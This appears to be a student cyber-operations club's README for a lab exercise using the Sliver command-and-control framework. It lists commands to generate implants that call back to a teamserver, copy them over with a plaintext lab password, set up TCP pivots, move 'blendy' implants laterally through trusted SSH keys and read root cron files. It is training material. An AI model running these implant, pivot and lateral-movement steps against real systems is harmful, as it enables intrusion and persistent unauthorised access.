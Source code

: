 # Cyber Ops Unit Sliver Setup
All the commands and files needed to set up the exercise, reminder that this exercise will **not** work over the TAMU network (because we can't port forward without access to the routers) and will have to be done over hotspot, where everyone will (probably) be on the same subnet, meaning they can directly SSH to the first machine

Make sure to run `sudo systemctl start sliver.service` to get Sliver working

Commands used:\
Generate Sliver Implant: `generate --os linux --arch arm64 --name [Implant Name] --http [IP of Teamserver]`\
Copy over to Intermediate server: `scp [Implant Name] aeverwooddesktop@[IP of Intermediate Server]:/home/aeverwooddesktop/Documents` (Password is 'password')\ 
Run Implant: `./[Implant Name] &`\
View sessions: `sessions`\
Use the Implant: `use [session number]`\
Create a pivot through that implant: `pivots tcp --lport [Pivot Port]`\
Generate an implant for that pivot: `generate --os linux --arch arm64 --tcp-pivot [IP Address of Intermediate Server:[Pivot Port] --name [Pivot Implant Name]`\
Upload that implant to his desktop with the upload command (More blendy than another SCP): `upload ./[Pivot Implant Name in Local Directory] ./[Pivot Implant Name in Remote Directory]` 
Use our implant to scp it over to the Final Server: `execute -o scp [Pivot Implant Name] aeverwooddesktop@[IP of Final Server]:/home/aeverwooddesktop/Documents` (His desktop is trusted because of the scp keys so there is no need for a password)`\
Naviagte to the tmp directory and see what is in one of the root_cron_job files: `execute -o cat root_cron_job_1.sh`\
